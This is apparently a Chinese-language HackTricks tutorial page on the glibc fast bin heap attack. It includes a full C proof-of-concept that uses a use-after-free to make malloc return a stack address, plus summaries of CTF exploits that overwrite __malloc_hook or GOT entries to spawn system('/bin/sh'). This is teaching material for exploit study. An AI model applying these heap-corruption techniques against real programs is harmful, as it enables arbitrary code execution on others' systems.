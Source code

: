 # Fast Bin Attack

{{#include ../../banners/hacktricks-training.md}}

## 基本信息

有关 fast bin 的更多信息，请查看此页面：

{{#ref}}
bins-and-memory-allocations.md
{{#endref}}

由于 fast bin 是一个单链表，因此其保护措施比其他 bins 少得多，仅仅是 **修改已释放 fast bin** 块中的地址就足以 **在任何内存地址分配一个块**。

总结：
```c
ptr0 = malloc(0x20);
ptr1 = malloc(0x20);

// Put them in fast bin (suppose tcache is full)
free(ptr0)
free(ptr1)

// Use-after-free
// Modify the address where the free chunk of ptr1 is pointing
*ptr1 = (unsigned long)((char *)&<address>);

ptr2 = malloc(0x20); // This will get ptr1
ptr3 = malloc(0x20); // This will get a chunk in the <address> which could be abuse to overwrite arbitrary content inside of it
```
您可以在一个非常清晰解释的代码中找到完整的示例，来自 [https://guyinatuxedo.github.io/28-fastbin_attack/explanation_fastbinAttack/index.html](https://guyinatuxedo.github.io/28-fastbin_attack/explanation_fastbinAttack/index.html):
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(void)
{
puts("Today we will be discussing a fastbin attack.");
puts("There are 10 fastbins, which act as linked lists (they're separated by size).");
puts("When a chunk is freed within a certain size range, it is added to one of the fastbin linked lists.");
puts("Then when a chunk is allocated of a similar size, it grabs chunks from the corresponding fastbin (if there are chunks in it).");
puts("(think sizes 0x10-0x60 for fastbins, but that can change depending on some settings)");
puts("\nThis attack will essentially attack the fastbin by using a bug to edit the linked list to point to a fake chunk we want to allocate.");
puts("Pointers in this linked list are allocated when we allocate a chunk of the size that corresponds to the fastbin.");
puts("So we will just allocate chunks from the fastbin after we edit a pointer to point to our fake chunk, to get malloc to return a pointer to our fake chunk.\n");
puts("So the tl;dr objective of a fastbin attack is to allocate a chunk to a memory region of our choosing.\n");

puts("Let's start, we will allocate three chunks of size 0x30\n");
unsigned long *ptr0, *ptr1, *ptr2;

ptr0 = malloc(0x30);
ptr1 = malloc(0x30);
ptr2 = malloc(0x30);

printf("Chunk 0: %p\n", ptr0);
printf("Chunk 1: %p\n", ptr1);
printf("Chunk 2: %p\n\n", ptr2);


printf("Next we will make an integer variable on the stack. Our goal will be to allocate a chunk to this variable (because why not).\n");

int stackVar = 0x55;

printf("Integer: %x\t @: %p\n\n", stackVar, &stackVar);

printf("Proceeding that I'm going to write just some data to the three heap chunks\n");

char *data0 = "00000000";
char *data1 = "11111111";
char *data2 = "22222222";

memcpy(ptr0, data0, 0x8);
memcpy(ptr1, data1, 0x8);
memcpy(ptr2, data2, 0x8);

printf("We can see the data that is held in these chunks. This data will get overwritten when they get added to the fastbin.\n");

printf("Chunk 0: %s\n", (char *)ptr0);
printf("Chunk 1: %s\n", (char *)ptr1);
printf("Chunk 2: %s\n\n", (char *)ptr2);

printf("Next we are going to free all three pointers. This will add all of them to the fastbin linked list. We can see that they hold pointers to chunks that will be allocated.\n");

free(ptr0);
free(ptr1);
free(ptr2);

printf("Chunk0 @ 0x%p\t contains: %lx\n", ptr0, *ptr0);
printf("Chunk1 @ 0x%p\t contains: %lx\n", ptr1, *ptr1);
printf("Chunk2 @ 0x%p\t contains: %lx\n\n", ptr2, *ptr2);

printf("So we can see that the top two entries in the fastbin (the last two chunks we freed) contains pointers to the next chunk in the fastbin. The last chunk in there contains `0x0` as the next pointer to indicate the end of the linked list.\n\n");


printf("Now we will edit a freed chunk (specifically the second chunk \"Chunk 1\"). We will be doing it with a use after free, since after we freed it we didn't get rid of the pointer.\n");
printf("We will edit it so the next pointer points to the address of the stack integer variable we talked about earlier. This way when we allocate this chunk, it will put our fake chunk (which points to the stack integer) on top of the free list.\n\n");

*ptr1 = (unsigned long)((char *)&stackVar);

printf("We can see it's new value of Chunk1 @ %p\t hold: 0x%lx\n\n", ptr1, *ptr1);


printf("Now we will allocate three new chunks. The first one will pretty much be a normal chunk. The second one is the chunk which the next pointer we overwrote with the pointer to the stack variable.\n");
printf("When we allocate that chunk, our fake chunk will be at the top of the fastbin. Then we can just allocate one more chunk from that fastbin to get malloc to return a pointer to the stack variable.\n\n");

unsigned long *ptr3, *ptr4, *ptr5;

ptr3 = malloc(0x30);
ptr4 = malloc(0x30);
ptr5 = malloc(0x30);

printf("Chunk 3: %p\n", ptr3);
printf("Chunk 4: %p\n", ptr4);
printf("Chunk 5: %p\t Contains: 0x%x\n", ptr5, (int)*ptr5);

printf("\n\nJust like that, we executed a fastbin attack to allocate an address to a stack variable using malloc!\n");
}
```
> [!CAUTION]
> 如果可以用一个大数字覆盖全局变量 **`global_max_fast`** 的值，这将允许生成更大尺寸的快速 bin 块，可能在之前无法进行快速 bin 攻击的场景中执行此类攻击。这种情况在 [large bin attack](large-bin-attack.md) 和 [unsorted bin attack](unsorted-bin-attack.md) 的上下文中非常有用。

## 示例

- **CTF** [**https://guyinatuxedo.github.io/28-fastbin_attack/0ctf_babyheap/index.html**](https://guyinatuxedo.github.io/28-fastbin_attack/0ctf_babyheap/index.html)**:**
- 可以分配块，释放它们，读取其内容并填充它们（通过溢出漏洞）。
- **合并块以进行信息泄露**：该技术基本上是利用溢出创建一个假的 `prev_size`，使一个之前的块放入一个更大的块中，因此在分配包含另一个块的更大块时，可以打印其数据并泄露一个 libc 地址（`main_arena+88`）。
- **覆盖 malloc hook**：为此，利用之前的重叠情况，可以有 2 个块指向相同的内存。因此，释放它们两个（在中间释放另一个块以避免保护）可以使同一个块在快速 bin 中出现两次。然后，可以再次分配它，覆盖下一个块的地址，使其指向 `__malloc_hook` 之前的一点（因此它指向一个 malloc 认为是空闲大小的整数 - 另一个绕过），再次分配它，然后分配另一个块，该块将接收指向 malloc hooks 的地址。\
最后，一个 **one gadget** 被写入其中。
- **CTF** [**https://guyinatuxedo.github.io/28-fastbin_attack/csaw17_auir/index.html**](https://guyinatuxedo.github.io/28-fastbin_attack/csaw17_auir/index.html)**:**
- 存在堆溢出和使用后释放以及双重释放，因为当一个块被释放时，可以重用和重新释放指针。
- **Libc 信息泄露**：只需释放一些块，它们将获得指向主 arena 位置的一部分的指针。由于可以重用已释放的指针，只需读取此地址。
- **快速 bin 攻击**：所有分配的指针都存储在一个数组中，因此我们可以释放几个快速 bin 块，并在最后一个块中覆盖地址以指向这个指针数组之前的一点。然后，分配几个相同大小的块，我们将首先获得合法的块，然后是包含指针数组的伪块。我们现在可以覆盖这个分配的指针，使 `free` 的 GOT 地址指向 `system`，然后在块 1 中写入 `"/bin/sh"`，然后调用 `free(chunk1)`，这将执行 `system("/bin/sh")`。
- **CTF** [**https://guyinatuxedo.github.io/33-custom_misc_heap/csaw19_traveller/index.html**](https://guyinatuxedo.github.io/33-custom_misc_heap/csaw19_traveller/index.html)
- 另一个例子是利用一个字节的溢出在未排序的 bin 中合并块并获取 libc 信息泄露，然后执行快速 bin 攻击以用一个 gadget 地址覆盖 malloc hook。
- **CTF** [**https://guyinatuxedo.github.io/33-custom_misc_heap/csaw18_alienVSsamurai/index.html**](https://guyinatuxedo.github.io/33-custom_misc_heap/csaw18_alienVSsamurai/index.html)
- 在利用未排序的 bin 进行信息泄露后，通过 UAF 泄露 libc 地址和 PIE 地址，此 CTF 的利用使用快速 bin 攻击在指向受控块的指针所在的位置分配一个块，因此可以覆盖某些指针以在 GOT 中写入一个 gadget。
- 你可以找到通过未排序的 bin 攻击滥用的快速 bin 攻击：
- 请注意，在执行快速 bin 攻击之前，通常会滥用空闲列表以泄露 libc/heap 地址（在需要时）。
- [**Robot Factory. BlackHat MEA CTF 2022**](https://7rocky.github.io/en/ctf/other/blackhat-ctf/robot-factory/)
- 我们只能分配大于 `0x100` 的块。
- 使用未排序的 bin 攻击覆盖 `global_max_fast`（由于 ASLR，成功率为 1/16，因为我们需要修改 12 位，但必须修改 16 位）。
- 快速 bin 攻击以修改全局块数组。这提供了一个任意读/写原语，允许修改 GOT 并将某些函数指向 `system`。

{{#ref}}
unsorted-bin-attack.md
{{#endref}}

{{#include ../../banners/hacktricks-training.md}}
